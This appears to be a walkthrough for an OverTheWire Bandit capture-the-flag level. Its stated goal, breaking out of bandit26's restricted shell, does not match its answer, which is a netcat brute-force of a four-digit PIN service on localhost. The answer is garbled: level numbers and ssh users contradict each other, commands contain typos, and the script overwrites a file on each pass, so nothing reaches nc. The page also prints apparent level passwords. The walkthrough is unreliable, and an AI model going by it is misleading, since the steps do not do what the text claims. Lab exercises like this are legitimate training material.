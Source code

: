 # Bandit Level 24 → Level 25

## Level Goal

Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not `/bin/bash`, but something else. Find out what it is, how it works and how to break out of it.

## Commands you may need to solve this level

- `ssh`
- `cat`
- `more`
- `vi`
- `ls`
- `id`
- `pwd`

# Answer

To solve Bandit Level 25 → Level 26, you need to understand the shell being used for user bandit26 and find a way to break out of it. Here are the steps:

1. Log into the server for Level 25 using SSH. The command is:

   ```bash
   ssh bandit24@bandit.labs.overthewire.org -p 2220
   ```

   Enter the password when prompted (the password is the one you found in Level 24).

2. Determine if the shell has any limitations or restrictions. You can also use the `id` command to check your current user information:

   ```bash
   id
   ```

3. Explore the file system using basic commands like `ls`, `pwd`, and `cd` to understand the environment.

4. Create a temporary directory for brute-force script:

   ```bash
   mkdir /tmp/level25
   cd /tmp/level25
   ```

5. If the shell allows you to use a text editor like `vim`, you can use it to view and edit files:

   ```bash
   vim brute_force.sh
   ```

6. Paste the script:

   ```bash
   #!/bin/bash

   for i in {0..9}{0..9}{0..9}{0..9}

   do
         echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i" > list.txt;
   done
   ```

   This Bash script generates and prints strings by combining a fixed prefix (`VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar`) with numbers from `0000` to `9999` using a `for` loop. Each line of output consists of the prefix followed by a number from the specified range.

7. Change permission of the script for it to be executed:

   ```bash
   chomod u+x brute_froce.sh
   ```

8. Execute script:

   ```bash
   ./brute_force.sh | nc localhost 30002 | grep -v "Wrong"
   ```

   ```
   uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
   ```

   The command is used for a brute-force attack against a service running on localhost at port 30002. The script generates combinations, the `nc` command sends them to the service, and `grep` filters out lines indicating unsuccessful attempts. The remaining output may represent successful attempts or some specific response from the service.

   So, when you use `grep -v`, it will output lines from the input that do not contain the specified pattern. It's a way to exclude lines that match a particular expression.

9. Use the obtained password to log in to Level 26 using SSH:

   ```bash
   ssh bandit25@bandit.labs.overthewire.org -p 2220
   ```

Congratulations! You've completed Bandit Level 25 → Level 26. Keep going, and feel free to ask if you have any questions!

